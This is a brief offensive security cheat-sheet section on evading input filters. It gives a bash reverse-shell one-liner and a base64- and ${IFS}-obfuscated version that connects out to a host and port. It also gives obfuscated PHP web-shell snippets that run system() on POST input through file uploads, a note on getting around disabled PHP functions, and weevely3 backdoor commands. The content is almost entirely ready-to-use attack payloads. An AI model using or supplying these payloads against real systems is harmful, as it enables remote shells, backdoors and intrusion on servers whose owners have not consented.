 #### 4.1. Base64 encoded payload

- Default: `bash -i >& /dev/tcp/[IP address]/[port] 0>&1`
- Modified: `bash${IFS}-c${IFS}"{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xLzgwODAgMD4mMQ==}|{base64,-d}|bash"`
- When spaces are not allowed as part of your payload (`echo${IFS}test` or `{echo,test}`)


#### 4.2. PHP code (file upload)

Example 1:
```php
// system($_POST['aaa'])
$k="sys"."tem";
$k(${"_PO"."ST"}['aaa']);
```

Example 2:
```php
// echo base64_decode("TE9M");
$x="b"."a"."s"."\x65"."64_\x64\x65\x63\x6f\x64\x65";
echo $x("TE9M");
```

Note on `php.ini`:
```
blacklisted: exec,system,passthru,shell_exec,popen,proc_open
alternative: pcntl_exec
```


#### 4.3. PHP backdoor `weevely3`

Backdoor source code is obfuscated by default.

```
:shell_sh -vector python_eval pwd
:shell_sh -vector perl_system pwd
:shell_sh -vector pcntl pwd
```
